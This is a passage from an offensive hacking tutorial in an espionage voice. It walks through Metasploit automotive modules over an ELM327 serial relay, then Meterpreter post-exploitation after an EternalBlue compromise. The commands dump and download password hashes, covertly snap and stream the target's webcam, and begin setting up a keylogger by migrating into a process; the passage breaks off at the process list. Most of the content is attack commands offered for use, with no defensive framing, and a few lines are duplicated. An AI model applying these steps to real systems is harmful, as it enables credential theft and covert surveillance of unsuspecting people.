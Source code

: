 As you can see, it basically requires just two parameters; the speed(default is 115200) and the serial device (default is /dev/ttyUSB0). To determine which serial to use, check the Linux utility dmesg(display message) and grep for "tty".

    kali > ruby elm327_relay.rb -s /dev/ttyS0
    
    kali > msfconsole
    
    msf6 > search automotive
    
    msf6 > use auxiliary/client/hwbridge/connect
    
    msf6 > info
    
    msf6 > exploit
    
    msf6 > use post/hardware/automotive/getvinfo

**Post Exploitation**

When using Metasploit for post exploitation, we have numerous options. We can view all the post-exploitation modules in Metasploit by using the search command and entering.

    msf6 > search type:post
    
    msf6 > search type:post platform:windows
    
    meterpreter > help
    
    meterpreter > idletime

If we have system administrator privileges on the target -- as we do with the EternalBlue exploit --we can get all the hashes of all the passwords by simply using the hashdump command.

    meterpreter > hashdump
    
    meterpreter > hashdump > hashes
    
    meterpreter > download hashes

In addition, our espionage/intelligence service may want to see what to see what is happening in the room where the computer is located. The meterpreter has a command that will turn on the webcam and a take a single snapshot. It's named webcam_snap. Before we use it, we need to check to see whether a webcam exists on the system and what number has been assigned to it by the operating system. We can use the webcam_list command to do that.

    meterpreter > webcam_list
    
    meterpreter > webcam_list
    
   **Stream the WebCam**
    
    meterpreter > webcam_stream

**Keylogger or How to View Every Keystroke**

To employ our keylogger , we need to decide what process we want to capture keystrokes from and then migrate(move) the meterpreter to that process.

    meterpreter > ps

If we scan down a bit through this list, we can see a process for Wordpad.
